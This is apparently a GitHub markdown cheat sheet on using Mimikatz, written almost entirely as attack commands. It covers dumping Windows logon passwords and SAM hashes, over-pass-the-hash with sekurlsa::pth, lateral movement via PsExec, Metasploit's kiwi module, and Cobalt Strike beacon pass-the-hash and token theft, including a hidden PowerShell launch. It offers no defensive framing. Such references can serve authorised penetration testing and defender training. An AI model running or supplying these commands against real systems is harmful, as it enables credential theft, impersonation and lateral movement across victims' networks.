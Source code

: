 # Mimikatz

## 01 - Manual

### 1.1 - Dump the hashes

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
```

### 1.2 - Over Pass the Hash

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash> /run:<commands>

mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /aes256:<aes256_hash> /ntlm:<NTLM_hash> /aes128:<aes128_hash> /run:<commands>

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

## 02 - Metasploit

### 2.1 - Kiwi

```
meterpreter > load kiwi

meterpreter > kiwi_cmd
```

## 03 - Havoc

TODO: Demonstrate pass the hash in Havoc

## 04 - Cobalt Strike

```
beacon> pth <username> aad3b435b51404eeaa3b435b51404ee:<NT> <commands>

beacon> pth Administrator aad3b435b51404eeaa3b435b51404ee:<NT> powershell -w hidden

beacon> steal_token <powershell_process_id>
```